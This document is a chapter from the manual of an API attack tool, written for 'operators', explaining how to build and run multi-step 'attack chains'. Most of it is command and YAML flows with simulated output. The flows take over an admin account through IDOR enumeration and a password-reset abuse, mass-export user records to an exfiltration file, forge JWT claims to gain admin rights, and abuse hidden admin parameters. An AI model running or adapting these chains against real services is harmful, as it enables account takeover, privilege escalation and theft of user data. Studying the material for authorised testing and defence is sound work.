

# 09 - Attack Chains & Flow Orchestration

> **For:** Advanced operators  
> **Read Time:** 25 minutes  
> **Difficulty:** ⭐⭐⭐⭐ Advanced  
> **Last Updated:** February 8, 2026

---

## Overview

> <span style="background-color: #06b6d4; color: white; padding: 2px 6px; border-radius: 3px;">**ORCHESTRATION**</span> **Attack Chains** (or Flows) allow you to sequence multiple exploitation steps, with conditional logic and dependency management.

### Example Chain: Account Takeover



---

## Creating Attack Chains

### Command: `flow`

```bash
> flow
[cyan]FLOW:[-] Enter flow editor
> flow create --name account-takeover

[cyan]FLOW EDITOR:[-] Creating new flow...
[blue]STEP 1:[-] Enumeration phase
  Command: bola --range 1-10000
  Save: found_ids

[blue]STEP 2:[-] Find admin user
  Command: filter found_ids --pattern admin
  Save: admin_id

[blue]STEP 3:[-] Password reset
  Command: bfla --endpoint /api/users/{admin_id}/password-reset
  Save: reset_result

[blue]STEP 4:[-] Intercept webhook
  Command: intercept --monitor webhook-calls
  Save: reset_link

[blue]STEP 5:[-] Reset password
  Command: request POST /api/auth/reset-password
    --data "token={reset_link}"
    --data "new_password=hacked123"

> flow save
[green]✓ SAVED:[-] Flow saved as 'account-takeover.flow'
```

---

## Flow Execution

### Running a Saved Flow

```bash
> flow execute account-takeover.flow

[cyan]EXECUTING:[-] account-takeover.flow
[blue]STEP 1:[-] Enumeration (BOLA)
  ⏳ Running: bola --range 1-10000
  ✅ Found: 5000 users
  
[blue]STEP 2:[-] Filter (Find Admin)
  ⏳ Running: filter found_ids --pattern admin
  ✅ Found: User ID 1 (admin)
  
[blue]STEP 3:[-] Password Reset (BFLA)
  ⏳ Running: bfla --endpoint /api/users/1/password-reset
  ✅ Success: Reset endpoint accessible!
  
[blue]STEP 4:[-] Intercept Webhook
  ⏳ Waiting for webhook callback...
  ✅ Received: Reset link captured
  
[blue]STEP 5:[-] Password Reset
  ⏳ Sending: new_password=hacked123
  ✅ Success: Password changed!
  
[green]🎯 FLOW COMPLETE:[-] Account takeover successful!
```

---

## Flow Syntax

### Basic Structure

```yaml
flow:
  name: example-chain
  description: Multi-stage attack demonstration
  
  steps:
    - name: step1
      command: bola
      params:
        endpoint: /api/users/{id}
        range: 1-1000
      save-as: user_ids
      
    - name: step2
      command: bfla
      params:
        endpoint: /api/admin/delete-user
        user-id: "{step1.user_ids[0]}"
      conditions:
        - if: step1.found > 0
          then: continue
          else: abort
          
    - name: step3
      command: report
      params:
        title: "Account Access"
        findings: "{step2.result}"
```

### Variables & References

```yaml
# Variables are accessible with {variable_name}
{step1.result}          # Output from step 1
{found_users[0]}        # First element of array
{admin_id}              # Named variable from save-as
{env.target}            # Environment variable
{timestamp}             # Current timestamp
```

### Conditional Logic

```yaml
conditions:
  # If/then/else
  - if: step1.status == "success"
    then: continue
    else: abort
    
  # Multiple conditions (AND)
  - if: step1.found > 100 AND step2.status == "success"
    then: execute step3
    else: skip step3
    
  # Retry logic
  - if: step2.status == "timeout"
    then: retry 3 times with backoff
```

---

## Practical Attack Chains

### Chain 1: Complete Data Exfiltration

**Objective:** Extract all user data from database

```yaml
flow:
  name: data-exfiltration
  
  steps:
    # Phase 1: Map API
    - name: discovery
      command: map
      save-as: endpoints
      
    # Phase 2: Find data endpoints
    - name: find-data-endpoints
      command: filter endpoints --pattern "user|data|profile"
      save-as: data_endpoints
      
    # Phase 3: Test BOLA on each
    - name: test-bola
      command: bola
      params:
        endpoint: "{data_endpoints[0]}"
        range: 1-100000
      conditions:
        - if: found > 0
          then: continue
          else: try_next_endpoint
      save-as: accessible_data
      
    # Phase 4: Extract all records
    - name: mass-export
      command: request --method GET
      params:
        url: "{data_endpoints[0]}?limit=100000"
      save-as: exported_data
      
    # Phase 5: Export to file
    - name: save-data
      command: loot export
      params:
        data: "{exported_data}"
        format: json
        filename: "exfiltrated_users.json"
```

### Chain 2: Privilege Escalation

**Objective:** Escalate from user to admin

```yaml
flow:
  name: privilege-escalation
  
  steps:
    - name: capture-jwt
      command: intercept --capture "Authorization: Bearer"
      save-as: original_jwt
      
    - name: decode-jwt
      command: parse-jwt "{original_jwt}"
      save-as: claims
      
    - name: modify-claims
      command: jwt-modify
      params:
        jwt: "{original_jwt}"
        claims:
          role: admin
          admin: true
        resign: false
      save-as: admin_jwt
      
    - name: test-access
      command: request --method POST
      params:
        url: /api/admin/users
        header: "Authorization: Bearer {admin_jwt}"
      
    - name: verify-escalation
      conditions:
        - if: previous_step.status == 200
          then: "Escalation successful!"
          else: "Try next technique"
```

### Chain 3: Insider Threat Simulation

**Objective:** Simulate malicious insider accessing data

```yaml
flow:
  name: insider-threat
  
  steps:
    - name: legitimate-login
      command: request --method POST
      params:
        url: /api/auth/login
        data: '{"username":"employee@company.com","password":"correct"}'
      save-as: employee_token
      
    - name: enumerate-sensitive-endpoints
      command: scrape
      save-as: endpoints
      
    - name: test-horizontal-access
      command: mine
      params:
        headers: "Authorization: Bearer {employee_token}"
        hidden-params: "admin,internal,debug,system"
      save-as: hidden_params
      
    - name: exploit-parameters
      command: request --method GET
      params:
        url: "/api/data?admin=true&internal=1"
        header: "Authorization: Bearer {employee_token}"
      save-as: sensitive_data
      
    - name: generate-report
      command: report
      params:
        title: "Insider Threat Assessment"
        findings: "{sensitive_data}"
```

---

## Advanced Features

### Feature 1: Parallel Execution

Run multiple steps in parallel:

```yaml
parallel:
  - name: bola-testing
    command: bola --endpoint /api/users/{id}
    
  - name: ssrf-testing
    command: ssrf --endpoint /api/fetch?url=
    
  - name: auth-testing
    command: bfla --endpoint /api/admin
    
# All three run simultaneously
# Continue when all complete
```

### Feature 2: Loop Iteration

Repeat with different values:

```yaml
steps:
  - name: test-all-endpoints
    command: bola
    params:
      endpoint: "{item}"
    loop:
      items: "{discovered_endpoints}"
      parallel: 5
    
# Tests all endpoints, 5 at a time
```

### Feature 3: Error Recovery

Handle failures gracefully:

```yaml
steps:
  - name: api-call
    command: request
    params:
      url: /api/data
    on_error:
      - retry: 3 times
      - if_still_fails: skip to step X
      - log: "API unreachable"
```

---

## Flow Best Practices

✅ **DO:**
- Start with simple 2-3 step chains
- Test each step independently first
- Use meaningful variable names
- Add conditional checks
- Save templates for reuse

❌ **DON'T:**
- Create chains >10 steps (hard to debug)
- Skip error handling
- Make assumptions about API responses
- Run without testing on lab first
- Forget to save output for reporting

---

## Integration with Planning

Attack chains integrate with strategic planning:

```bash
# Generate plan
> analyze

# Get recommended chain
> list-plan

# Copy to flow
> flow create --from-plan

# Execute
> flow execute
```

---

**See Also:**
- [04_STRATEGIC_PLANNING.md](04_STRATEGIC_PLANNING.md) - Planning integration
- [06_EXPLOITATION.md](06_EXPLOITATION.md) - Exploitation modules for chains

---

**Last Updated:** February 8, 2026  
**Version:** 1.0 - Production Ready
